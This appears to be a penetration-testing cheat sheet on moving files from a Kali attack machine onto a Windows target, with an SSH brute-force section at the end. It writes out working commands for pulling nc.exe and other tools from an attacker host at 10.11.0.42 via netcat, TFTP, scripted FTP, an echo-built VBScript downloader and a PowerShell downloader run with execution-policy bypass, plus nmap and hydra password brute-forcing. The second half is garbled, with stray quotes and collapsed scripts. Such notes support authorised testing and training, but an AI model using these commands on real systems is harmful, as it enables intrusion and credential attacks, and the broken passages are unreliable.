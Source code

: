 
## File Transfer
Below methos can be used to transfer files..

## Transferring Files to Windows	## 
-**Running Webserver on Kali**
```
python -m SimpleHTTPServer 8080	
```
-**Transfer with Netcat**
```
//Kali
nc -lvp 1234 > zeroday.txt
//Win 
nc 192.168.0.114 1234 < zero-day.txt
```
ref: https://blog.ropnop.com/transferring-files-from-kali-to-windows/

-**TFTP**
If target has tftp running, you can easily check it by typing tftp on windows cmd. 
Starting tftp service : 
```
atftpd --daemon --port 69 /tftp 
/etc/init.d/atftpd restart
cd /srv/tftp
cp /var/www/html/nc.exe .
```
```
 //transfer nc.exe  
 
tftp -i 10.11.0.42 GET nc.exe
//PUT
tftp -i 10.11.0.42 PUT test.txt
```
-**FTP**
Setup FTP service by downloading pyftp library 
```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -w
```
You can also automate ftp process by creating ftp.txt
```
echo open 10.11.0.42>ftp.txt
echo anonymous>>ftp.txt
echo password>>ftp.txt
echo binary>>ftp.txt
echo get nc.exe>>ftp.txt 
echo bye>>ftp.txt
ftp -s:ftp.txt
```

cf.	Setting FTP
```sh
#!/bin/bash 
 
groupadd ftpgroup 
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome 
pure-pw mkdb 
cd /etc/pure-ftpd/auth/ 
ln -s ../conf/PureDB 60pdb 
mkdir -p /ftphome 
chown -R ftpuser:ftpgroup /ftphome/ 
/etc/init.d/pure-ftpd restart
```
```
root@kali:~# chmod 755 setup-ftp 
root@kali:~# ./setup-ftp 
Password: 
Enter it again: 
Restarting ftp server
```

-**Creating VBscript**
wget.vbs * VBScript  (eg. in Windows XP, 2003) 
```sh
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject(""WinHttp.WinHttpRequest.5.1"") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject(""WinHttp.WinHttpRequest"") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject(""MSXML2.ServerXMLHTTP"") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject(""Microsoft.XMLHTTP"") >> wget.vbs
echo http.Open ""GET"",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject(""Scripting.FileSystemObject"") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = """" >> wget.vbs
echo strBuffer = """" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
**Usgage**  : ```cscript wget.vbs http://10.11.0.42/wget.exe wget.exe```


-**PowerShell-** (in Windows 7, 2008, and above) 	"echo $storageDir = $pwd > wget.ps1 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = ""http://10.11.0.42/nc.exe"" >>wget.ps1 
echo $file = ""nc.exe"" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1 "	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive NoProfile -File wget.ps1
"Debug.exe utility 
(In Windows 32bit OS - Works only for file < 64Kb)

"	"upx -9 nc.exe 
wine exe2bat.exe nc.exe nc.txt"	
"Pure ftp install in kali
""apt-get update && apt-get install pure-ftpd """	"#!/bin/bash 
 
groupadd ftpgroup 
useradd -g ftpgroup -d /dev/null -s /etc ftpuser 
pure-pw useradd offsec -u ftpuser -d /ftphome 
pure-pw mkdb cd /etc/pure-ftpd/auth/ ln -s ../conf/PureDB 60pdb mkdir -p /ftphome chown -R ftpuser:ftpgroup /ftphome/ /etc/init.d/pure-ftpd restart "	
## - **SSH(22)** <br />
Bruteforce : <br />
```sh
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=users.txt --script-args ssh-brute.timeout=4s 10.x.x.x 
hydra -l user -P /usr/share/wordlists/rockyou.txt  10.x.x.x ssh -t 4
```
